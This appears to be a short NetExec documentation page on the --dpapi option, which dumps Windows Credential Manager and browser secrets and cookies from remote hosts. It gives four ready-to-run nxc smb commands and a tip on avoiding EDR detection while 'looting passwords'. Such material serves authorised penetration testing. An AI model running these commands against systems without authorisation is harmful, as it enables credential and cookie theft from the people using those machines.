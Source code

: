 ```yaml
---
description: Dump DPAPI credentials using NetExec
---
```


# 🆕 Dump DPAPI

You can dump DPAPI credentials using NetExec using the following option: `--dpapi`. It will get all secrets from Credential Manager, Chrome, Edge, Firefox. `--dpapi` supports the following options :&#x20;

* cookies : Collect every cookies in browsers
* nosystem : Won't collect system credentials. This will prevent EDR from stopping you from looting passwords :fire:

{% hint style="danger" %}
You need at least local admin privilege on the remote target, use **--local-auth** if your user is a local account
{% endhint %}

```
$ nxc smb <ip> -u user -p password --dpapi
$ nxc smb <ip> -u user -p password --dpapi cookies
$ nxc smb <ip> -u user -p password --dpapi nosystem
$ nxc smb <ip> -u user -p password --local-auth --dpapi nosystem
```

